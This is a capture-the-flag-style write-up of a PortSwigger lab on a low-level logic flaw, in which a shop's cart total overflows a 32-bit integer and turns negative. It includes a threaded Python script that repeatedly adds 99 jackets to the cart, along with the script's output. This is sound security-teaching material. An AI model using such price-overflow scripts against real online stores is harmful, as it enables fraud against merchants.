 # Low-level logic flaw | Dec 20, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-low-level), you'll learn: Low-level logic flaw! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab doesn't adequately validate user input. You can exploit a logic flaw in its purchasing workflow to buy items for an unintended price. To solve the lab, buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220024954.png)

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220025012.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220025020.png)

**Let's try to buy the leather jacket!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220025136.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220025203.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220025238.png)

When we clicked the `Add to cart` button, **it'll send a POST request to `/cart`, with parameter `productId=1`, `redir=PRODUCT` and `quantity=1`.**

**Let's forward that request and check out the `/cart` page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220025807.png)

We can see that the leather jacket has been added to our cart.

**Now, what if we send the `quantity` value to a negative value? Like `-2`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220030536.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220030545.png)

Hmm... It doesn't have a negative quantity of products.

**In the `Add to cart` button's HTML form, we can see that the `quantity` has a maximum number:**
```html
<form id=addToCartForm action=/cart method=POST>
	<input required type=hidden name=productId value=1>
	<input required type=hidden name=redir value=PRODUCT>
	<input required type=number min=0 max=99 name=quantity value=1>
	<button type=submit class=button>Add to cart</button>
</form>
```

As you can, the minimum number is `0`, and the maximum is `99`.

**What if I go over 99?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220031258.png)

Hmm... `Invalid parameter`.

**Now, what if the total price is greater than a maximum value of an integer?** (Integer overflow)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220031617.png)

**If the total price is greater than `2147483647`, will the price went to `0`?**

**To do so, I'll keep buying 99 leather jackets in a python script:**
```py
#!/usr/bin/env python3

import requests
import re
from threading import Thread
from time import sleep

def sendAndGetRequest(url, cookie, data):
    # Send a POST request to /cart, which buying 99 quantity of the leather jacket
    requests.post(url, cookies=cookie, data=data)

    # Send a GET request to /cart, which fetches all the text in that page
    requestGetText = requests.get(url, cookies=cookie).text

    # Try to find the total price
    try:
        # Find pattern $1234.00 or -$1234.00
        matchedTotalPrice = re.findall(r'(\-?\$[0-9]+\.[0-9]{2})', requestGetText)
        print(f'[*] Total price = {matchedTotalPrice[2]}')
    # If couldn't find the total price, display the total price to $1337.00
    except IndexError:
        print('[*] Total price = $1337.00')

def main():
    url = 'https://0aff007003e8750ec056ea21007000ed.web-security-academy.net/cart'
    cookie = {'session': 'EFLAO76m0lWVnRY8CykNMObFTksFmX9B'}
    data = {
        'productId': '1',
        'redir': 'PRODUCT',
        'quantity': 99
    }

    # Create 350 jobs
    for job in range(350):
        # Create each thread to run function sendAndGetRequest(url, cookie, data)
        thread = Thread(target=sendAndGetRequest, args=(url, cookie, data))
        # Start the thread
        thread.start()
        # Sleep 0.2s to prevent max retries exceeded with url error
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5]
└─# python3 exploit.py
[*] Total price = $1323630.00
[...]
[*] Total price = $21310443.00
[*] Total price = -$21374503.96
[...]
[*] Total price = -$64060.96
[*] Total price = $200665.04
[...]
[*] Total price = $1127206.04
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220040907.png)

**As you can see, when the total price reached greater than `2147483647`, the value will become negative, then it'll go back to positive again!**

**Now, let's decrease the quantity of the leather jacket, so that the total price will become affordable for us:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220041158.png)

**Hmm... Still greater than $100. Let's `-1` the quantity again, and buy other products:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220041433.png)

**Let's go with `Sprout More Brain Power`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220041500.png)

**Let's buy `528` that product: (`2.32 * 528 = 1224.96`)**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220041819.png)

**Nice! Now we can buy those products! Let's click the `Place order` button:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-5/images/Pasted%20image%2020221220041855.png)

We did it!

# What we've learned:

1. Low-level logic flaw